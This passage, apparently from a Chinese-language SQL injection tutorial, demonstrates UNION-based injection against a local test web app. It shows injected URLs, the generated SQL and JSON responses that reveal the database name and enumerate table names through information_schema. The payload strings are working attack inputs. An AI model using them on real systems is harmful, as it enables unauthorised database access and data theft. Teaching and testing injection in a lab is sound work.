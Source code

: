 ```
  "code": 0,
  "message": "OK",
  "data": {
    "HashID": "1",
    "Title": "2",
    "Content": "3",
    "HashIDQuery": "iryTrPab4l8' and 1=2 union select 1,2,3#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=2 union select 1,2,3#'",
    "Err": ""
  }
}
```
and 1=2导致前一个select结果为空，再使用union暴露第二个select结果；

#### 第四步：暴库
```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=2 union select 1,2,database()%23

{
  "code": 0,
  "message": "OK",
  "data": {
    "HashID": "1",
    "Title": "2",
    "Content": "test",
    "HashIDQuery": "iryTrPab4l8' and 1=2 union select 1,2,database()#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=2 union select 1,2,database()#'",
    "Err": ""
  }
}
```
通过database()函数确定数据库名为：test；

#### 第四步：暴表名
```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=2 union select 1,2,table_name from information_schema.tables where table_schema='test' limit 0,1%23
        
{
  "code": 0,
  "message": "OK",
  "data": {
    "HashID": "1",
    "Title": "2",
    "Content": "articles",
    "HashIDQuery": "iryTrPab4l8' and 1=2 union select 1,2,table_name from information_schema.tables where table_schema='test' limit 0,1#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=2 union select 1,2,table_name from information_schema.tables where table_schema='test' limit 0,1#'",
    "Err": ""
  }
}
```
1、查询系统表需要root权限
2、通过系统表information_schema.tables和数据库名test，暴露了第一张表articles；<br>
3、递增limit，可以暴露出所有表名；<br>
```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=2 union select 1,2,table_name from information_schema.tables where table_schema='test' limit 1,2%23
        
{
  "code": 0,
```